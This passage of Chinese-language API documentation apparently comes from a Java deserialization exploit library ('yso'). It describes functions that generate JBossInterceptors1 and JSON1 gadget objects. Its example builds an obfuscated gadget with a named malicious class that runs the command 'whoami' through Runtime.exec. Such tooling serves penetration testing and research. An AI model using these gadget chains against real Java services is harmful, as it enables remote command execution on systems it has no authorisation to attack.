 
### GetJBossInterceptors1JavaObject

#### 详细描述
GetJBossInterceptors1JavaObject 基于JBossInterceptors1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetJBossInterceptors1JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetJBossInterceptors1JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetJSON1JavaObject

#### 详细描述
GetJSON1JavaObject 基于JSON1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。
